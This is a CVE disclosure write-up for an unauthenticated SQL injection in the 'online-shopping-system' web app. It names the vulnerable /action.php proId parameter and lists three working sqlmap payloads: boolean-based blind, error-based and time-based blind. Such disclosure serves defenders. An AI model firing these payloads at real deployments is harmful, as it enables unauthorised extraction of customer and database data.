 # CVE-2021-41648

CVE-2021-41648 SQL Injection in online-shopping-system

The online-shopping-system is vulnerable to un-authenticated error/boolean-based blind & error based SQL Injection attacks.  <br/><br/>
The proId parameter on the /action.php page does not sanitize the user input, an attacker can extract sensisitive data from the underlying MySQL Database.  

## Link To Application
[online-shopping-system](https://awesomeopensource.com/project/PuneethReddyHC/online-shopping-system)

## Affected Components & Parameter
URL: **/action.php**  
PARAMETER: **proId**

## Poc's

### SQLMAP PAYLOADS<br/>

### proId parameter on the /action.php page
Parameter: proId (POST)
Type: boolean-based blind
Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
Payload: `proId=61 OR 17-7=10' OR NOT 4774=4774#&addToCart=1`

Type: error-based
Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
Payload: `proId=61 OR 17-7=10' OR (SELECT 6869 FROM(SELECT COUNT(*),CONCAT(0x717a716271,(SELECT (ELT(6869=6869,1))),0x716a627871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- gfTu&addToCart=1`

Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: `proId=61 OR 17-7=10' AND (SELECT 2990 FROM (SELECT(SLEEP(5)))YhWy)-- xWNo&addToCart=1`</br></br>

### If the POC Image is unclear, please click on the GIF which will load in a better resolution.

![ POC - proId ](https://github.com/MobiusBinary/F2/blob/main/online-shopping-system.gif) 

## Discovered by
Jason Colyvas  
[MOBIUSBINARY](https://mobiusbinary.com)  
September 21st, 2021
